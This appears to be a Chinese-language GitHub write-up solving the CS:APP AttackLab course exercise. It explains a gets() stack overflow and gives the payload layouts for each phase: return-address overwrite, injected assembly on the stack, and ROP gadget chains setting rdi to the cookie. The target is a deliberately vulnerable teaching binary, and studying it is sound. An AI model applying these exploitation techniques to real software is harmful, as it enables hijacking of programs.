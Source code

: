 # AttackLab-Solution

## 一切的开始

根据pdf里的说明，getbuf()函数中使用Gets()读取字符串，这将造成栈溢出，根据IDA可知，这个大小为40

![1](./pic/1.PNG)

当输入字符串长度超过40时，便会覆盖到原来的返回地址，就可以控制程序走向

## Phase 1

执行ctarger中的touch1，没有其他条件，覆盖返回地址为touch1的函数地址即可(0x4017C0)

## Phase 2 Code Injection Touch2

执行ctarger中的touch2，要求传入的rdi值是自己cookie值，注意到每次调试时栈地址都相同，且栈可以执行，可以在栈中存放代码执行，通过ret方式返回到touch2执行

```assembly
mov edi,0x59b997fa #替换为实际cookie值
ret
```

| 栈结构                                      |
| ------------------------------------------- |
| 汇编代码 （输入字符串起始地址）             |
| 填充至40                                    |
| 返回地址 返回到汇编代码  <--执行完gets的rsp |
| 返回到touch2                                |

## Phase 3 Code Injection Touch3

执行ctarger中的touch3，要求传入的rdi值是自己cookie值的字符串形式，需要注意字符串的存放位置，防止进入touch3时栈的内容变化，放到原rsp之后即可

```assembly
mov rdi,0x5561dc78+40+8+8
ret
```

| 栈结构                                      |
| ------------------------------------------- |
| 汇编代码 （输入字符串起始地址）             |
| 填充至40                                    |
| 返回地址 返回到汇编代码  <--执行完gets的rsp |
| 返回到touch3                                |
| cookie字符串形式 '59b997fa\x00'             |

## Phase 4 ROP Touch2

执行rtarger中的touch2，要求传入的rdi值是自己cookie值，这里不能在栈上执行代码，需要使用程序原有的代码碎片，通过pop将寄存器赋值，使用ROPgadget找到代码碎片

| 栈结构                          |
| ------------------------------- |
| 填充至40                        |
| 返回地址 40141b : pop rdi ; ret |
| cookie值 0x59b997fa             |
| touch2地址                      |

## Phase 5 ROP Touch3

执行rtarger中的touch3，要求传入的rdi值是自己cookie值的字符串形式，需要在一块可写的内存中写入字符串

| 栈结构                                      |
| ------------------------------------------- |
| 填充至40                                    |
| 返回地址 40141b : pop rdi ; ret             |
| 可写地址 0x606000                           |
| 4019ab : pop rax ; nop ; ret                |
| b'59b9\x00\x00\x00\x00'                     |
| 40214e : mov dword ptr [rdi + 8], eax ; ret |
| 40141b : pop rdi ; ret                      |
| 0x606004                                    |
| 4019ab : pop rax ; nop ; ret                |
| b'97fa\x00\x00\x00\x00'                     |
| 40214e : mov dword ptr [rdi + 8], eax ; ret |
| 40141b : pop rdi ; ret                      |
| 字符串地址 ：0x606008                       |
| touch3函数地址：0x4018fa                    |